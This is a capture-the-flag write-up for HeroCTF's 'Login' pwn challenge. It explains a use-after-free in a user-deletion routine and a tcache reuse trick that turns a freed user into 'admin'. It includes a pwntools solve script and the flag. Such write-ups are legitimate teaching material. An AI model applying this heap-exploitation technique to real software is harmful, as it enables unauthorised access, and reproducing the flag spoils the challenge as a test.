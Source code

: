 # Login

### Category

Pwn

### Description

Login and get the flag!

**Host** : pwn.heroctf.fr<br>
**Port** : 8002

Format : **Hero{flag}**<br>
Author : **SoEasY**

### Files

 - [Login](Login)

### Write up

Launching the challenge, we can see a menu with different choices:
```
$ ./Login
################
#     Menu     #
################

1) Create user
2) Delete user
3) Admin login
4) EXIT

--> Your choice: 
```
Alright, let's load the challenge in IDA to see what's going on.
After some reversing we cann see that the challenge is manipulating some user structure that we can recreate in IDA:
```c
typedef struct {
	char* name;
	char* type;
} user_t;
```
We can see two global varibles: `int nb_users` (number of already registred users), and `user_t users[8]` (list of users).
Let's take a look at the `create_user()` function (to simplify the code I've set the good variable types with our freshly created structure):
```c
void __fastcall add_user()
{
  char *user_name; // [rsp+8h] [rbp-18h]
  char *user_type; // [rsp+10h] [rbp-10h]
  user_t *user; // [rsp+18h] [rbp-8h]

  if ( nb_users == 8 ){
    puts("[-] Maximum users number reached!");
  
  }else{
    user_name = (char *)malloc(0x32uLL);
    user_type = (char *)malloc(0x32uLL);

    printf("\n[+] Username: ");
    fflush(stdout);
    fgets(user_name, 45, stdin);
    user_name[strcspn(user_name, "\n")] = 0;


    strcpy(user_type, "user");
    user = &users[nb_users];
    user->user_name = user_name;
    user->user_type = user_type;

    printf("[+] Created with user ID n°%d\n", (unsigned int)nb_users);
    ++nb_users;
  }
}
```

There are differents steps in a user creation:
- the user's name is set in a buffer allocated with a malloc(0x32), asked to the user
- the user's tpe is set in a buffer allocated with a malloc(0x32), set by default to "user"
- the user's name and user's type are copied to the users list
- the number of created users is printed as the user's ID and is then incremented

Let's take a look at the `remove_user()` function:
```c
unsigned __int64 remove_user()
{
  int user_id; // [rsp+Ch] [rbp-14h] BYREF
  user_t *user; // [rsp+10h] [rbp-10h]
  unsigned __int64 canary; // [rsp+18h] [rbp-8h]

  canary = __readfsqword(0x28u);

  printf("\n[+] User ID to delete: ");
  fflush(stdout);
  __isoc99_scanf("%d", &user_id);
  getchar();

  if ( user_id >= 0 && user_id < nb_users ){
    user = &users[user_id];
    free(user->user_name);
    free(user->user_type);
    printf("[+] User with ID n°%d was deleted!\n", (unsigned int)user_id);
  
  }else{
    puts("[-] Invalid user ID.");
  }
  return canary - __readfsqword(0x28u);
}
```
This will free the user's name and user's type but will not set the pointer to zero :o --> we can here have a `Use After Free`. Let's then take a look at the  `admin_login()` function:
```c
unsigned __int64 admin_login(){
  char c; // [rsp+3h] [rbp-1Dh]
  int user_id; // [rsp+4h] [rbp-1Ch] BYREF
  user_t *user; // [rsp+8h] [rbp-18h]
  FILE *stream; // [rsp+10h] [rbp-10h]
  unsigned __int64 canary; // [rsp+18h] [rbp-8h]

  canary = __readfsqword(0x28u);

  printf("\n[+] User ID to login with: ");
  fflush(stdout);
  __isoc99_scanf("%d", &user_id);
  getchar();

  if ( user_id >= 0 && user_id < nb_users ){
    user = &users[user_id];
    
    if ( !strcmp("admin", user->user_type) ){
      puts("[+] Welcome back, admin!");
      stream = fopen("flag.txt", "r");
    
      while ( 1 ){
        c = fgetc(stream);
        if ( c == -1 )
          break;
        putchar(c);
      }
    }else{
      puts("[-] You are not admin.");
    }
  }else{
    puts("[-] Invalid user ID.");
  }
  return canary - __readfsqword(0x28u);
}
```
This function will give you the flag if the user selected for login has "admin" in the user_type field.

To accomplish this, we can abuse of the UAF identified earlier. This is the plan:
- crafting a user_A with a random name
- freeing user_A
    - free the name (size of 0x32)
        - goes in tcache bin
    - free the type (size of 0x32)
        - goes in tcache bin
    - don't set to NULL pointers in users
    - don't decrement nb_users
- crafting an user_B
    - name = malloc(0x32)
        - will be the same pointer as user_A->type because of LIFO in tcache bin
        - set it to "admin"
    - type = malloc(0x32)
        - will be the same pointer as user_A->name because of LIFO in tcache bin
- user_A->type == user_B->name == "admin"
- login with ID n°0 (user_A) and GET THE FLAG !!!

```py
from pwn import *

r = remote("pwn.heroctf.fr", 8002)
# r = process("./Login")

r.sendlineafter(b"choice: ", b"1")
r.sendlineafter(b"[+] Username: ", b"yolo")

r.sendlineafter(b"choice: ", b"2")
r.sendlineafter(b"[+] User ID to delete: ", b"0")

r.sendlineafter(b"choice: ", b"1")
r.sendlineafter(b"[+] Username: ", b"admin")

r.sendlineafter(b"choice: ", b"3")
r.sendlineafter(b"[+] User ID to login with: ", b"0")

flag = r.recvall(timeout=1).decode().split('\n')[1]
print(f"[+] Flag: {flag}")
```
Result:
```sh
$ python3 solve.py 
[+] Opening connection to pwn.heroctf.fr on port 8002: Done
[+] Receiving all data: Done (190B)
[*] Closed connection to pwn.heroctf.fr port 8002
[+] Flag: Hero{Y0u_w3r3_n0t_supp0s3d_t0_3nt3r!!!}
```

### Flag

```
Hero{Y0u_w3r3_n0t_supp0s3d_t0_3nt3r!!!}
```
